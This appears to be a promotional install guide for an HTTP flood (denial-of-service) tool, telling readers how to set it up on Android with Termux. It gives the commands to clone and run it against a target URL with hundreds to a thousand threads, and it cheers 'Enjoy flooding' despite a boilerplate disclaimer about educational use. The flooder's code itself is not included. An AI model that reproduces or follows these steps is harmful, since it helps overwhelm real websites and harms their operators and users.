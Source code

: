 🚀 Ultimate Guide: Installing LRX HTTP Flooder on Mobile (Termux) 🚀
Welcome to the LRX HTTP Flooder installation guide for mobile devices! This tool is designed to perform powerful HTTP flood attacks and is branded exclusively for LRX users. Follow this step-by-step guide to unleash the power of the LRX HTTP Flooder from your Android device!

📝 Prerequisites
An Android device with Termux installed.
Basic knowledge of using the command line.
A stable internet connection.
Make sure your device has Python 3.x installed (Termux will handle it).
🌐 Step 1: Installing Termux
Download and install Termux from F-Droid (recommended) or GitHub.

🛠️ Step 2: Updating and Upgrading Termux
Open Termux and update packages:
pkg update && pkg upgrade -y
This ensures that you have the latest versions of installed packages.

🐍 Step 3: Installing Python and Pip
Install Python and the pip package manager:
pkg install python -y
pip install --upgrade pip

📂 Step 4: Cloning the LRX HTTP Flooder from GitHub
Clone the repository using Git:
pkg install git -y
git clone https://github.com/YourUsername/LRX-HTTP-Flooder.git
cd LRX-HTTP-Flooder
(Replace YourUsername with your actual GitHub username.)

🧰 Step 5: Installing Required Python Libraries
Install necessary libraries using pip:
pip install requests matplotlib

🚀 Step 6: Running the LRX HTTP Flooder
To start the attack, use the following command:
python lrx_http_flooder.py --target https://example.com --duration 300 --threads 600
Replace the target URL, duration, and number of threads as needed.

💡 Example Usage
python lrx_http_flooder.py --target https://example.com --duration 600 --threads 1000
This will run the flooder against the specified target for 600 seconds with 1000 threads.

📝 Log and Status Monitoring
While running, the tool will display:

Total packets sent
HTTP status codes
Real-time request logs
🛑 Step 7: Stopping the Attack
To stop the attack, press:

objectivec
CTRL + C
✅ Troubleshooting
If you encounter errors related to Python libraries, reinstall them:
pip install --force-reinstall requests matplotlib

If the script doesn’t execute, make sure it has executable permissions:
chmod +x lrx_http_flooder.py

⚠️ Disclaimer
This tool is intended for educational and testing purposes only. Unauthorized use of this tool on third-party systems is illegal and punishable by law. Use responsibly and only on systems you own or have permission to test.

💬 Support
If you encounter any issues, feel free to open an issue on the GitHub repository or contact us via the support page.



ALL TERMUX CODE

pkg update && pkg upgrade -y

pkg install python -y

pip install --upgrade pip

pkg install git -y

git clone https://github.com/YourUsername/LRX-HTTP-Flooder.git

cd LRX-HTTP-Flooder

pip install requests matplotlib

python lrx_http_flooder.py --target https://example.com --duration 300 --threads 600


Enjoy flooding with the power of LRX! 🔥
